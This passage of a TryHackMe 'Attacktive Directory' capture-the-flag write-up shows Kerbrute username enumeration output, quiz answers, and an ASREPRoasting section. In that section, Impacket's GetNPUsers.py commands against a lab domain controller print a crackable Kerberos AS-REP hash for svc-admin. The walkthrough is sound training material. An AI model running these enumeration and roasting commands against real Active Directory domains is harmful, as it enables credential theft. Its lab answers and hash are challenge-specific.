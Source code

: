 ```
2020/10/17 11:08:21 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/17 11:08:22 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/17 11:08:27 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/17 11:08:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/17 11:08:37 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/17 11:08:52 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/17 11:08:57 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/17 11:09:14 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/17 11:09:19 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/17 11:09:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2020/10/17 11:10:16 >  Done! Tested 100000 usernames (16 valid) in 116.694 seconds
```

`svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## Task 5 Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396

bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
